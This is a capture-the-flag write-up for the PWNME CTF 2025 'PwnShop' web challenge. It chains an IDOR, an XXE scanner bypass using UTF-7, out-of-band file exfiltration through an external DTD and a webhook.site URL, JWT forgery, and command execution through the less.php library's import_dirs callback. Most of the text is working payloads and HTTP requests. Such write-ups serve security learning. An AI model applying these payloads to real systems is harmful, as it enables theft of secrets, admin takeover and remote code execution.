




# PWNME CTF 2025 : PwnShop (Web/Hard)

## TLDR : 
- XXE via IDOR  
- RCE via 0day in [less.php](https://github.com/wikimedia/less.php)

## Exploiting an XXE via an IDOR in Order Submission

First, we need to exploit an XXE (XML External Entity) vulnerability via an IDOR (Insecure Direct Object Reference) in the order submission endpoint: `/api/orders/submit`.

This API endpoint is accessible to all users.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
#[Privilege(permissions: [Permissions::CHECKOUT])]
private function submitOrder($currentUser, $data) {
```

<ins>File:</ins> `src/app/src/Models/User.php`

```php
$stmt = $this->db->prepare("
    INSERT INTO user_permissions (user_id, permission)
    SELECT ?, permission
    FROM (
        SELECT 'viewProducts' as permission UNION
        SELECT 'updateProfile' UNION
        SELECT 'changePassword' UNION
        SELECT 'manageCart' UNION
        SELECT 'checkout' UNION
        SELECT 'manageOrders' UNION
        SELECT 'viewOrders' UNION
        SELECT 'searchOrders'
    ) AS permissions_list
");
```

Since there is no check to verify that the order belongs to the current user, we can submit an order using another user’s ID.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
#[Privilege(permissions: [Permissions::CHECKOUT])]
private function submitOrder($currentUser, $data) {
    try {
        $order = $this->order->getOrderById($data["id"]);
        if (!$order) {
            return ['error' => 'Order not found', 'status' => 404];
        }
        if ($order["status"] !== "pending") {
            return ['error' => 'Order is not pending', 'status' => 400];
        }
        // ...
    }
}
```

By submitting an order with another user’s ID, we can validate that user’s order.

Next, we can exploit an XXE via the xml parameter which contains the order information.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
$xml = simplexml_load_string($xmlSanitized, 'SimpleXMLElement', LIBXML_NOENT);
```

However, there is a check to validate the XML.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
$xmlSanitized = $this->xmlScanner->scan($data["xml"]);
```

The `scan` function verifies that the XML is valid and does not contain external entities.

<ins>File:</ins> `src/app/src/Security/XmlScanner.php`

```php
public function scan($xml): string
{
    $pattern = '/\\0*' . implode('\\0*', str_split($this->pattern)) . '\\0*/';

    $xml = "$xml";
    if (preg_match($pattern, $xml)) {
        throw new Exception('Before UTF-8 conversion, detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
    }
    $xml = $this->toUtf8($xml);
    if (preg_match($pattern, $xml)) {
        var_dump($xml);
        throw new Exception('After UTF-8 conversion, detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
    }

    return $xml;
}
```

This function checks if the XML contains external entities and replaces them with a null character. It then converts the XML to UTF-8 and performs the check again.

To bypass this verification, we use a trick that bypasses the UTF-8 conversion. We double-encode the XML in UTF-7 and use the notation `encoencoding="UTF7"ding="UTF-7"` so that, initially, the `encodining` field is removed by the `scan` function and our encoding becomes `encoding="UTF-7"`.

Thus, our initial payload is:
```xml
<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>
+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]>
<order>
<shipping_address>
<name>poc</name>
<address>&external;</address>
<zipcode>poc</zipcode>
<city>poc</city>
<country>poc</country>
<phone>poc</phone>
</shipping_address>
</order>
```

After passing through the `scan` function, it becomes exploitable:
```xml
<?xml version=\"1.0\" encoding=\"UTF-7\" standalone=\"yes\"?>
+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]>
<order>
<shipping_address>
<name>poc</name>
<address>&external;</address>
<zipcode>poc</zipcode>
<city>poc</city>
<country>poc</country>
<phone>poc</phone>
</shipping_address>
</order>
```

Using the bypass discovered in `XmlScanner.php`, we can access the file `JWTManager.php` which contains the secret key used to sign JWTs. However, to retrieve its contents, we must perform an Out Of Band (OOB) request since the response content is not directly returned.

We use a webhook to capture the file’s contents.

<ins>File: </ins> `exploit.dtd`

```xml
<!ENTITY % stuff SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/src/Auth/JWTManager.php">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'https://webhook.site/56767caf-e9b4-42af-b1d4-24f7b419cbd4?data=%stuff;'>">
```

<ins>File: </ins> `exploit.xml`

```xml
<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]><order><shipping_address><name>poc</name><address>&external;</address><zipcode>poc</zipcode><city>poc</city><country>poc</country><phone>poc</phone></shipping_address></order>
```

The HTTP request to submit the order is as follows.

<ins>Request (HTTP):</ins>

```http
POST /api/orders/submit HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"xml":"<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]><order><shipping_address><name>poc</name><address>&external;</address><zipcode>poc</zipcode><city>poc</city><country>poc</country><phone>poc</phone></shipping_address></order>","id":1}
```

And on our webhook, we get the file `JWTManager.php` encoded in base64:


We decode it and get the secret key:


## 2. Generating a Valid JWT for the Admin User

Now that we have the secret key, we can generate a valid JWT for the admin user:



This allows us to access the administration page:


Although many admin features are available, most are not exploitable. However, we can modify certain application parameters like the application name, site name, CSS, etc.

## 3. Exploiting Less.php to achieve RCE 

In the CSS modification features, the [less.php](https://github.com/wikimedia/less.php) library is used. 

To identify that we can check the composer.json

<ins>File:</ins> `src/app/composer.json`

```json
"require": {
        "wikimedia/less.php": "^5.1",
        // ...
},
```

In the code of the library, we see that the parameter `$rooturi` is invoked using `call_user_func`

<ins>File:</ins> `src/app/vendor/wikimedia/less.php/lib/Less/FileManager.php`

```php
$res = $rooturi( $filename );
```

`$rooturi` comes from `Less_Parser::$options['import_dirs']`

<ins>File:</ins> `src/app/vendor/wikimedia/less.php/lib/Less/FileManager.php`

```php
$import_dirs = array_merge( $import_dirs, Less_Parser::$options['import_dirs'] );
foreach ( $import_dirs as $rootpath => $rooturi ) {
```

Thus, using the function `SetImportDirs`, we can modify `Less_Parser::$options['import_dirs']`. 

<ins>File:</ins> `src/app/vendor/wikimedia/less.php/lib/Less/Parser.php`

```php
public function SetImportDirs( $dirs ) {
    self::$options['import_dirs'] = [];
    
    foreach ( $dirs as $path => $uri_root ) {
        $path = self::WinPath( $path );
        if ( !empty( $path ) ) {
            $path = rtrim( $path, '/' ) . '/';
        }

        if ( !is_callable( $uri_root ) ) {
            $uri_root = self::WinPath( $uri_root );
            if ( !empty( $uri_root ) ) {
                $uri_root = rtrim( $uri_root, '/' ) . '/';
            }
        }

        self::$options['import_dirs'][$path] = $uri_root;
    }
}
```

The question is how we can control `$importDirs`. We look at where `$importDirs` comes from the following code.

<ins>File:</ins> `src/app/src/Models/Settings.php`

```php
$importDirs = $this->getImportDirectories();
```

The `getImportDirectories` function retrieves data from the `less_import_directories` table.

<ins>File:</ins> `src/app/src/Models/Settings.php`

```php
private function getImportDirectories(): array {
    try {
        $stmt = $this->db->query("SELECT physical_path, import_path FROM less_import_directories");
        $directories = [];
        while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
            $directories[$row['physical_path']] = $row['import_path'];
        }
        $directories[$this->lessDirectory] = '';
        return $directories;
    } catch (PDOException $e) {
        return [$this->lessDirectory => ''];
    }
}
```

Thus, to control `$importDirs`, we need to modify the table `less_import_directories` via the function `addImportDirectory()`.

<ins>File:</ins> `src/app/src/Models/Settings.php`

```php
public function addImportDirectory(string $physicalPath, string $importPath): bool {
    try {
        $this->fileScanner->validatePath($physicalPath);
        $this->fileScanner->validatePath($importPath);
        $stmt = $this->db->prepare("
            INSERT INTO less_import_directories (physical_path, import_path)
            VALUES (?, ?)
            ON DUPLICATE KEY UPDATE import_path = VALUES(import_path)
        ");
        
        return $stmt->execute([
            rtrim($physicalPath, '/'),
            trim($importPath, '/')
        ]);
    } catch (Exception $e) {
        return false;
    }
}
```

To call this function, we use the endpoint `/api/settings/less/imports` with a POST request.

<ins>Request (HTTP):</ins>

```http
POST /api/settings/less/imports HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"physicalPath":"/var/www/html/resources/less","importPath":"system"}
```

To trigger command execution, we need to call the function `Less_FileManager::getFilePath()`, which is invoked within the function `datauri:`.

<ins>File:</ins> `src/app/vendor/wikimedia/less.php/lib/Less/Functions.php`

```php
public function datauri( $mimetypeNode, $filePathNode = null ) {
    if ( !$filePathNode ) {
        $filePathNode = $mimetypeNode;
        $mimetypeNode = null;
    }
    
    $filePath = $filePathNode->value;
    // ...
    [ $filePath ] = Less_FileManager::getFilePath( $filePath, $this->currentFileInfo );
```

Since `$filePath` is user-controlled, we can inject CSS that contains the command which will be executed when `getFilePath()` is called. For example:
```css
.test { 
    content: data-uri('id'); 
}
```

The HTTP request to inject this CSS is as follows

<ins>Request (HTTP):</ins>

```http
PUT /api/settings/css HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"css":".test { content: data-uri('id');}"}
```

The response will include the result of the command execution.

<ins>Response (HTTP):</ins>

```http
HTTP/1.1 200 OK
Date: Sun, 02 Feb 2025 12:14:50 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json
Content-Length: 114

uid=33(www-data) gid=33(www-data) groups=33(www-data)
{"success":true,"message":"Custom CSS updated successfully"}
```

And to finally get the flag, we need to execute `/getflag PWNME`:
```css
.test { 
    content: data-uri('/getflag PWNME'); 
}
```

The HTTP request to inject this CSS is as follows.

<ins>Request (HTTP):</ins>

```http
PUT /api/settings/css HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"css":".test { content: data-uri('/getflag PWNME');}"}
```

And the response will include the `flag`.

<ins>Response (HTTP):</ins>

```http
HTTP/1.1 200 OK
Date: Sun, 02 Feb 2025 13:10:51 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json
Content-Length: 76

PWNME{f8c24b0632286fe10e506350b4074779}{"success":true,"message":"Custom CSS updated successfully"}
```

